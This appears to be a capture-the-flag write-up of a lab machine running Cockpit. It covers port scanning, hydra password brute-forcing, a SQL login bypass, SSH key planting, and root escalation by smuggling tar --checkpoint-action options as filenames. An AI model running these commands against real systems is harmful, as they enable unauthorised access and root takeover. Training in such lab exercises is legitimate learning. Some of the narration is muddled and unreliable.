Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.224.10
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-19 09:15 IST
Warning: 192.168.224.10 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.224.10
Host is up (0.22s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
3272/tcp  filtered user-manager
3986/tcp  filtered mapper-ws_ethd
9090/tcp  open     zeus-admin
10112/tcp filtered unknown
24139/tcp filtered unknown
26243/tcp filtered unknown
27223/tcp filtered unknown
28427/tcp filtered unknown
32871/tcp filtered unknown
33268/tcp filtered unknown
38217/tcp filtered unknown
38798/tcp filtered unknown
39128/tcp filtered unknown
40749/tcp filtered unknown
42513/tcp filtered unknown
45982/tcp filtered unknown
49311/tcp filtered unknown
50848/tcp filtered unknown
51831/tcp filtered unknown
52164/tcp filtered unknown
56687/tcp filtered unknown
58038/tcp filtered unknown
61391/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 22.44 seconds
```

```sh
 nmap -sC -sV -T4 -Pn -p 22,80,9090 192.168.224.10
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-19 09:17 IST
Nmap scan report for 192.168.224.10
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: blaze
9090/tcp open  http    Cockpit web service 198 - 220
|_http-title: Did not follow redirect to https://192.168.224.10:9090/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.53 seconds
```

Visiting web server on port 80.

Visiting web server on port 9090. We got login page. Default `admin : admin` creds didn't work.


From here I ran feroxbuster tool on port 80 and found a login page, indicating a potential starting point for further investigation.


From there, I searched Google to see if there were any publicly available exploits for Blaze, but didn’t find anything noteworthy. So, I began focusing on SQL injection (SQLi) as default creds weren't working. But, we got invalid password error means user admin exist.



We performed password brute forcing using hydra.
```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.224.10 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid password"
```

`admin : sleepy`

This means our previous sql injection worked. Next, we want to try if we can bypass the authentication. I try adding single quote ‘ to the username. It return MySQL error. 
Great, we might be able to bypass the auth. We google “mysql login bypass seclist”, get the payload and try to enter in username.

Once logged into the application, I discovered usernames and passwords that were encoded in base64 format.




```
james : canttouchhhthiss@455152
cameron : thisscanttbetouchedd@455152
```
With the decoded credentials, I attempted to access the server via SSH, but encountered issues as the server required private keys for authentication, which I did not have.

From here, I attempted to access the Zeus web server running on port 9090 and successfully logged into the application. (James credentials)


Note that we are still technically in a, albeit advanced, web shell as evidenced by the presence of the URL bar. I don’t believe this would count in the OSCP exam as it is Not and I [quote](https://help.offsec.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide):

“The valid way to provide the contents of the proof files is in an interactive shell on the target machine with the `type` or `cat` command from **their original location**.

**Obtaining the contents of the proof files in any other way will result in zero points for the target machine; this includes any type of web-based shell.**”

So let’s look to connect with a SSH key. We find something intriguing under Accounts → james:


Seems pretty straightforward. Let’s copy our key there. We can make a new one. Nmap already told us what type of keys the SSH server accepts.


I’m going to make an ECDSA key where -t is the Type and -f is the filename.
```sh
ssh-keygen -t ECDSA -f james_ecdsa
```

They appear in my local directory and I display the .pub file as this is what we need to copy into the Ubuntu Server Management console.



Now we are able login with the other half of the key via ssh using -i to include the freshly minted key.



### Method 2 (For taking shell of normal user i.e. james )



That sweet sweet shell, SSH has full TTY ability so tab auto-completion and text editors work for us. What are our current privileges?

Oh good, we can run a very powerful binary without even a password. I imagine the administrator wanted to give James the ability to backup the server but was hasty in the set up. GTFOBins educates us to the folly.

## Privilege Escalation Using `tar`

The `sudo -l` command shows that user **james** can run the following command as root **without a password**:  
**sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *  
**This means that James can use `tar` to **compress all files** into `/tmp/backup.tar.gz` with root privileges.

## Understanding `tar` Privilege Escalation

`tar` has a feature that allows it to execute a command when it reaches a certain point in its process. This is done using two options:

- `--checkpoint=1`: This tells `tar` to trigger an action after processing just **one file**.
- `--checkpoint-action=exec=<command>`: This allows executing a command when the checkpoint is reached.

### How Does This Help in Privilege Escalation?

Since James can run `tar` as root, we can abuse the `--checkpoint-action` option to execute **any command** as root.

## Why Do We Need Two Files?

Instead of running `tar` with manually typed options like:  
**sudo tar -czvf /tmp/backup.tar.gz a.txt b.txt — checkpoint=1 — checkpoint-action=exec=/bin/sh**

We **trick** `**tar**` **into processing these options as filenames**. The reason we create **two separate files** is due to **how spaces and special characters are interpreted** in Linux:

1. **Spaces in Filenames:**

- The shell interprets spaces as **separators between arguments**.
- If we tried to create a single file named `--checkpoint=1 --checkpoint-action=exec=/bin/sh`, it would **not work properly** because the shell would treat it as two separate arguments instead of one filename.

**2. The** `**/**` **Character Issue:**

- The `/` character is interpreted as a **directory separator**.
- If we try to create a file like `--checkpoint-action=exec=/bin/sh`, it will not work because the system expects it to be a **file path**, not just a filename.

## How to Exploit This

### Step 1: Create Two Files

We create **two special filenames** so that `tar` interprets them as arguments:

**echo “” > “ — checkpoint=1”  
echo “” > “ — checkpoint-action=exec=sh payload.sh”**

- The first file is named `--checkpoint=1`, which tells `tar` to **trigger an action** after processing one file.
- The second file is named `--checkpoint-action=exec=sh payload.sh`, which tells `tar` to execute `sh payload.sh` as root.

### Step 2: Create a Payload

Next, we create a simple payload script that opens a **root shell**:

**echo “/bin/bash” > payload.sh  
chmod +x payload.sh**

### Step 3: Run `tar`

Now, when we run:  
**sudo /usr/bin/tar -czvf /tmp/backup.tar.gz ***

- `tar` will process the files in the current directory.
- Since we **named our files like command-line options**, `tar` will interpret them as real arguments.
- It will **execute** `**sh payload.sh**` **with root privileges**.
- `payload.sh` runs `/bin/bash`, giving us **a root shell**.

Summary :  
```sh
echo '/bin/bash' > payload.sh
chmod +x payload.sh
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh payload.sh'
```


### Method 2 for privesc
https://medium.com/@basha5969/cockpit-proving-grounds-practice-44edfb3ee5dc